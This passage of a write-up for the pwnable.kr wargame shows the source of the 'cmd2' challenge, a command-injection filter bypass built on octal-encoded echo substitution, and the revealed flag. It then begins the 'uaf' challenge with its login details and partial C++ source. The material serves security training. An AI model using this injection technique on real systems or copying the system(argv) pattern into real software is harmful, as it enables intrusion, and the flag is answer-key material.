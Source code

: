 ```
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```
This problem is harder then the last one. We can make it by echo encoding.
```
In [1]: from pwn import *

In [2]: cmd = "/bin/cat flag"

In [3]: print "\\"+"\\".join([oct(i) for i in ordlist(cmd)])
\057\0142\0151\0156\057\0143\0141\0164\040\0146\0154\0141\0147


cmd2@ubuntu:~$ ./cmd2 '$(echo "\057\0142\0151\0156\057\0143\0141\0164\040\0146\0154\0141\0147")'
$(echo "\057\0142\0151\0156\057\0143\0141\0164\040\0146\0154\0141\0147")
FuN_w1th_5h3ll_v4riabl3s_haha
```


## 0x10 uaf
```
Mommy, what is Use After Free bug?

ssh uaf@pwnable.kr -p2222 (pw:guest)
```
The source code `uaf.cpp`
```
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
```